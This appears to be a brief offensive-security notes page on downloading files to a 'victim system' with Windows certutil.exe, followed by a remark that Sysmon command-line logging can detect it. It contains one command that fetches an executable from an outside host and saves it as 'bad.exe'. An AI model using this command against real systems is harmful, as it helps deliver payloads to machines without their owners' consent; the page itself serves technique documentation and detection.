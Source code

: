 ```yaml
---
description: Downloading additional files to the victim system using native OS binary.
---
```


# Downloading Files with Certutil

## Execution

```csharp
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

![](../../.gitbook/assets/certutil-download.gif)

## Observations

Sysmon commandling logging is a good place to start for monitoring suspicious `certutil.exe` behaviour:

![](../../.gitbook/assets/certutil-sysmon.png)

